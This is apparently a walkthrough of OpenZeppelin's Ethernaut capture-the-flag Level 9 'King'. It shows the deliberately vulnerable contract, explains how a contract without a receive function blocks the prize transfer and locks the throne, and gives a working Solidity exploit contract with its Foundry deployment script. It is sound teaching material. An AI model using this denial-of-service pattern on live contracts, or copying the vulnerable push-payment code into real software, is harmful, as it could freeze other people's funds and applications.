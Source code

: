 # Level 9 - King ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/9" %}

### Level Setup

{% hint style="info" %}
The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/King.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```
{% endcode %}

### Exploit

The old king is sent back `msg.value` before the new king is set. So if the old king is a contract that doesn't implement a `receive` or `fallback` function then the call will fail and a new king can't be set, breaking the game.

1. Create an exploit contract that doesn't contain a `receive` or `fallback` function.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-9

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-9

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level9.sol" %}

{% code title="src/Level9.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IKing {
    function prize() external view returns (uint256);
}

// ================================================================
// │                         LEVEL 9 - KING                       │
// ================================================================
contract ClaimKing {
    constructor(address _targetContractAddress) payable {
        IKing king = IKing(_targetContractAddress);
        uint256 attackValue = king.prize() + 1 wei;
        if (attackValue > address(this).balance) revert("Not enough funds");

        // Attack contract
        (bool success,) = _targetContractAddress.call{value: attackValue}("");
        if (!success) revert("Call failed");

        // Refund remaining balance
        (bool refundSuccess,) = address(msg.sender).call{value: address(this).balance}("");
        if (!refundSuccess) revert("Refund call failed");
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level9.s.sol" %}

{% code title="script/Level9.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {ClaimKing} from "../src/Level9.sol";

// ================================================================
// │                         LEVEL 9 - KING                       │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        new ClaimKing{value: 1 ether}(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).
{% endhint %}

### Notes

* Executing everything in the constructor removes points of failure e.g. if the prize was calculated before sending, then the transaction was pending for a few blocks, it would no longer be the correct value. So it's better to calculate as much as possible on chain, even if it costs more gas that off-chain calculations, as it's more important that it actually goes through (and the check can be right at the start to minimize wasted gas if it does revert)

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_9_King.md" %}
